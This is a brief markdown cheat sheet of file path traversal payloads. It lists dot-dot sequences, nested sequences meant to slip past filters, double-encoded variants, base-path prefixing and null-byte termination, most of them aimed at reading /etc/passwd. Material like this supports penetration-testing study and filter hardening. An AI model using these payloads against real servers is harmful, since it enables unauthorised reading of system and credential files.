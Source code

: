 ## File path traversal, Directory traversal

### Step up multiple levels

On Unix/linux `../`

On Windows both `../` and `..\`

### Absolute path
`/etc/passwd`

### Nested traversal sequences
`....//` or `....\/`

### URL decode or double decode
`..%252f..%252f..%252fetc/passwd`

### Incude required base path
`/var/www/images/../../../etc/passwd`

### Null byte to terminate stirng
`../../../etc/passwd%00.png`




